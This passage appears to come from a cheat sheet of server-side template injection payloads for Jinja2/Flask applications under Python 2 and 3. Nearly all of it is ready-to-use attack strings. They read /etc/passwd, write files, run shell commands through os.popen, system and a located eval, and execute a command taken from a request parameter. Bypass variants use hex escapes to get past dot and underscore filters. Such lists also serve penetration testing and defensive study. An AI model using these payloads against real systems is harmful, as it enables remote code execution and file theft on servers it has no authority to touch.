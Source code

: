     ```python
    #All the below payloads works under python2
    --------------------------------------------

    #Starting from string or list
    {{ ''.__class__.__base__ }}

    #File operation
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt').write('test') }}
    
    #RCE
    {{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read() }}
    > uid=1000(ubuntu)gid=1000(ubuntu)...

    #All the below payloads works under python3
    --------------------------------------------
    {{ ().__class__.__base__.__subclasses__() }}
    {{ ().__class__.__base__.__subclasses__()[132] }} #<class 'os._wrap_close'>
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__ }}
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id') }}

    #Find eval
    {% for c in [].__class__.__base__.__subclasses__(): %}
      {% if c.__name__ == 'catch_warnings': %}
        {% for b in c.__init__.__globals__.values(): %}
          {% if b.__class__ == {}.__class__ %}
            {% if 'eval' in b.keys(): %}
              {{ b['eval']('__import__("os").popen("id").read()') }}
            {% endif %}
          {% endif %}
        {% endif %}
      {% endif %}
    {% endfor %}

    #Import
    {% for x in ().__class__.__base__.__subclasses__() %}
      {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__["__import__"]("os").popen(request.args.payload).read()}}
      {% endif %}
    {% endfor %}
    ```

  - Bypass
    - `.`

      ```txt
      /?ssti={{libsum['__globals__']['os']}}
      ```

    - `.` `_`

      ```txt
      /?ssti={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']}}
      ```
